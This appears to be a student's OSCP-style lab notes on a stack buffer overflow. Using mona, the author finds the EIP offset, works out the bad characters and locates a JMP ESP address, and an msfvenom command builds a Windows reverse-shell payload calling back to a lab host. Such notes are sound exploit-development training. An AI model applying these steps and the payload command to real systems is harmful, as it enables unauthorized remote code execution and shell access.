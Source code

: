 ### Find EIP & offset
76413176
!mona findmsp -distance 1100

Log data, item 18
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x76413176 (offset 634)

verified with BBBB 424242 
done and done

### Bad Chars
##### Round 1
ESP 0022FA10
!mona compare -f C:\mona\oscp\bytearray.bin -a 0022FA10
x01

##### Round 2
!mona bytearray -b "\x00\x01"
ESP 019AFA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 019AFA30

00 01 23 24 3c 3d 83 84 ba bb

##### Round 3
!mona bytearray -b "\x00\x01\x23\x3c\x83\xba"
ESP 01A0FA30
!mona compare -f C:\mona\oscp\bytearray.bin -a 01A0FA30

### JMP ESP
!mona jmp -r esp -cpb "\x00\x01\x23\x3c\x83\xba"

625011AF

\xaf\x11\x50\x62

### Generate Payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.3.98 LPORT=2222 EXITFUNC=thread -b "\x00\x01\x23\x3c\x83\xba" -f c

### Tip
ran bad char triple times because of the \x00\x01